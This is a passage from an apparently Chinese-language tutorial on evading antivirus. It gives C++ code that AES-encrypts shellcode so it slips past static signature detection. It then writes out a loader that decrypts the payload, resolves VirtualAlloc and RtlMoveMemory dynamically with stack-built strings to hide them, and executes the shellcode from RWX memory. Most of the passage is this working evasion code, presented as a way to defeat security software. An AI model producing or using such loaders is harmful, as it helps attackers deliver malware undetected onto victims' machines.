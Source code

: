 ```php
        printf("%x", iv\[i\]);  
    }  
    printf("\\n");  
​  
​  
    unsigned char key\[\] \= { 0x01, 0x02, 0x03, 0x09, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f }; //key example  
​  
    printf("KEY:");  
    for (int i \= 0; i < 16; i++) {  
        printf("%x", key\[i\]);  
    }  
    printf("\\n");  
​  
    AES aes(AESKeyLength::AES\_128);  
​  
​  
    //加密  
    //unsigned char\* cipher = aes.EncryptECB(plain, plain\_size, key);   //ecb  
    unsigned char\* cipher \= aes.EncryptCBC(plain, plain\_size, key,iv);   //cbc  
    printf("密文:");  
    for (int i \= 0; i < plain\_size; i++) {  
        printf("\\\\x%02x", cipher\[i\]);  
    }  
    printf("\\n");  
​  

}
```

这样就可以绕过杀软静态检测对shellcode的特征检查

### 2、对抗shellcodeloader和其他特征

然后我们看下shellcodeloader：

1、就是使用常规的VirtualAlloc开辟shellcode的存储空间，然后使用RtlMoveMemory将解密后的shellcode复制到对应空间；最后将空间开头地址强传函数指针执行即可；

2、我们采用动态加载的形式加载shellcodeloader需要的函数

3、过程中出现的字符串，我们都通过栈来存储；不要出现在数据段

大致代码逻辑如下：

```php
函数定义： 
typedef LPVOID(\*MyVirtualAlloc)(LPVOID lpAddress,SIZE\_T dwSize,DWORD  flAllocationType,DWORD  flProtect);  
typedef LPVOID(\*MyRtlMoveMemory)(VOID UNALIGNED\* Destination,const VOID UNALIGNED\* Source,SIZE\_T  Length);  
​  
​  
​  
代码实现：  
cipher\[\] \= "shellcode加密之后的密文";  
char a\[\] \= { 'k','e','r','n','e','l','3','2','.','d','l','l','\\0'};  
char b\[\] \= { 'V','i','r','t','u','a','l','A','l','l','o','c','\\0' };  
char c\[\] \= { 'N','t','d','l','l','.','d','l','l','\\0' };  
char d\[\] \= { 'R','t','l','M','o','v','e','M','e','m','o','r','y','\\0' };  
unsigned char\* res\_plain \= aes.DecryptCBC(cipher, cipher\_size, key, iv);//解密  
MyVirtualAlloc myVa \= (MyVirtualAlloc)GetProcAddress(GetModuleHandle(a), b);  
MyRtlMoveMemory myMov \= (MyRtlMoveMemory)GetProcAddress(GetModuleHandle(c), d);  
LPVOID mem \= myVa(NULL, cipher\_size + 1, MEM\_COMMIT, PAGE\_EXECUTE\_READWRITE);  
myMov(mem, res\_plain, cipher\_size);  
((void(\*)())mem)();
```
